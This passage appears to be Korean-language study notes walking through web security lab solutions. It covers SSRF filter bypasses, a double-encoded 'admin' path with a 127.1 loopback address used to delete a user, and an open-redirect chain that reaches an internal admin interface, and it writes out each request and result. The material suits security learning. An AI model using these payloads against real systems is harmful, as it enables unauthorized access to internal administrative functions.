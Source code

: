 ![[Pasted image 20240105103406.png]]

6. carlos 삭제 시 url 
```
GET /admin/delete?username=carlos

->

권한없으므로 접근 불가 
```

7. 재고관리 조회 시 삭제 url 호출
```
stockApi=http://127.1/%2561dmin/delete?username=carlos

->

carlos 삭제 성공
```


# 5. [실무자] Open Redirection 취약점을 통한 필터 우회기능이 있는 SSRF

> api 호출 기능에 open redirection url 사용해서 관리자 페이지 접근

 1. 재고 조회 시 stocapi로 관리인터페이스 호출 시도 
	- 기존 url도 path 부터 경로를 받기 때문에 http부터 경로 호출 불가 
```
// 기존
stockApi=/product/stock/check?productId=1&storeId=1

// 변경 
stockApi=http://192.168.0.12:8080/admin

->

"Invalid external stock check url 'Invalid URL'"
```

2. Open Redirection 찾기
```
// 다음페이지 버튼 클릭 시 
GET /product/nextProduct?currentProductId=1&path=/product?productId=2

-> 

// Redirection 됨 
GET /product?productId=2
```

3. 관리인터페이스로 리다이렉션 되도록 한다. 
```
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin

->

관리인터페이스 이동 
```
